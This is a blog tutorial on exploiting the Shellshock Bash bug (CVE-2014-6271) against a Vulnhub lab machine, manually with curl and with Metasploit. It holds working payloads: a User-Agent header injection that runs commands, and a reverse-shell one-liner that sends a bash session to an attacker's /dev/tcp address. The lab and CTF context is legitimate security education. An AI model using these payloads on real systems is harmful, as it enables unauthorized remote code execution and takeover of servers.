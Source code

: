 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author: madhavmehndiratta
paginate: false
keywords: shellshock, exploit shellshock manually, how to exploit shellshock vulnerability, shellshock vulnerability, exploit shellshock using metasploit, infosecarticles
---
```

<p align="justify"> One of the most critical bugs that came out in the last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">
</center>

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/">"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<center><br>
<img src="/assets/img/uploads/shellshock/nikto.png">
</center>

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of the current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<center>
<img src="/assets/img/uploads/shellshock/shell.png">
</center>

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT = curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-search.png">
</center>

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-options.png">
</center>
<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to the IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/msf-exploit.png">
</center>
<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet">Zet Aboard.</a>
